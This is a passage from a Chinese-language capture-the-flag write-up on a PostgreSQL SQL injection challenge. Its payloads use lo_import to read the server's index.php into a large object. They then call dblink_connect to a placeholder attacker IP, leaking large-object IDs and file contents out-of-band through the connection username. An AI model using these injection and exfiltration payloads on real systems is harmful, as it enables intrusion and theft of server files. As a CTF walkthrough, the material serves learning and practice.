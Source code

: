这是原WP里的错误，原因在于其flag文件本身就已经包含在大对象里，所以直接就可查询，而dblink状态下并没有生效，算是这次比赛这道题目的最大收获吧。



如实验所示，流程如下，IP记得替换成自己的

首先起服务如实验中所示

先将`index.php`包含进来，看看有没有线索

```
?f=gyy' union select (SELECT lo_import('/var/www/html/index.php')),'2' --
```

然后读取全部oid列表

```
?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=@' || (SELECT string_agg(cast(oid as text), ',') FROM pg_largeobject_metadata) || ' password=postgres dbname=postgres')) --
```

![image-20210202011754628](cqb2021/image-20210202011754628.png)

（多按几下就会有多个oid，见谅...）

然后读`index.php`的oid读取数据，这里可以直接读，lo_get数据转码为UTF-8，然后替换换行符(chr(10))再替换空格(chr(32))即可明文读取

```
./?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=@' || (SELECT replace(replace(substring(convert_from(lo_get(16440),'utf8'),1,900),chr(10),''),chr(32),'')) || ' password=postgres dbname=postgres')) --
```
